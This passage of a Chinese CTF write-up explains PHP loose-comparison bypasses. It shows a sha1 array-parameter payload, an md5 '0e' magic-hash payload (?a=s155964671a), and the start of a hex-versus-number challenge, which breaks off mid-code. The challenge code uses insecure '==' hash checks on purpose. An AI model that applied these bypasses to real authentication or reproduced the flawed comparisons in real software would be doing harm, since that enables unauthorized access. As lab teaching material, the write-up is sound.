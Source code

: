 ```
die('Flag: '.$flag);
else
echo 'Invalid password.';
}
else
echo 'Login first!';
?>
```
再次供上代码
sha1再次用数组绕过

payload:?name[]=1&password[]=2

### md5加密相等绕过

利用php的hash缺陷直接绕过

```
<?php
$md51 = md5('QNKCDZO');
$a = @$_GET['a'];
$md52 = @md5($a);
if(isset($a)){
if ($a != 'QNKCDZO' && $md51 == $md52) {
echo "flag{*}";
} else {
echo "false!!!";
}}
else{echo "please input a";}
?>
```
代码如上，构造payload?a=s155964671a
因为在php中科学记数法表示的0e开头的都认为为0
所以直接构造

![Image.png](https://i.loli.net/2019/05/02/5ccac25417099.png)

https://www.cnblogs.com/Primzahl/p/6018158.html
这里扔出一个hash缺陷的列表网站供查看


### 十六进制与数字比较
源码
```
<?php
error_reporting(0);
function noother_says_correct($temp)
{
$flag = 'flag{test}';
$one = ord('1'); //ord — 返回字符的 ASCII 码值
$nine = ord('9'); //ord — 返回字符的 ASCII 码值
$number = '3735929054';
// Check all the input characters!
for ($i = 0; $i < strlen($number); $i++)
{
// Disallow all the digits!
$digit = ord($temp{$i});
if ( ($digit >= $one) && ($digit <= $nine) )
{
// Aha, digit not allowed!
return "flase";
}
}
if($number == $temp)
return $flag;
```